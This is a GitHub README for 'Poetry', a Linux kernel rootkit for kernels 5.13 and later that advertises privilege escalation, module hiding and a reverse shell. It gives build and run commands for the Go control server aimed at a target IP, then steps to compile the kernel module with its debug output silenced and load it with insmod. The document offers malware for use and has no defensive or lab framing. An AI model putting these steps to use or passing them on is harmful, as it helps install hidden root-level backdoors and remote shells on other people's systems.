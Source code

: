 ![nil is goated](https://img.shields.io/badge/nil-goated-green)
# Poetry
This is a Linux kernel module rootkit made for >=5.13. It features privilege escalation, module hiding, and reverse shell capabilities. 

## Server Setup
### Building
#### If not on Linux:
Docker must be installed in order to compile the server binary. 
```sh
cd srv/
make # compile the go binary
ls out/ # compiled binary will be in the out/ directory
```
#### If on Linux:
You can utilize the method above if you have Docker installed, or you can use the method below if you have Golang installed. 
```sh
cd srv/

# compile the server binary
go build
```

The compiled binary will be called: `poetry`

### Running
Copy the compiled binary to the host system. Run the following commands to interact with the target:
```sh
export IFACE=<ethernet_interface> # set interface env var
sudo -E ./poetry -t <target_ip> # -E passes the env vars to sudo
```

## Kernel Module
### Tested On:
- 5.13.0
### Building
```sh
# install needed packages
apt update
apt install build-essential \
            checkinstall \
            linux-headers-$(uname -r) \
            -y 

cd lkm/

# comment out the printk debug statements
sed -i 's/printk/\/\/printk/g' *.c 

# compile the kernel module with the corresponding headers
make 
```
The compiled LKM will be: `poet.ko`
### Installing
```sh
# install the kernel module on the system
sudo insmod poet.ko 
```
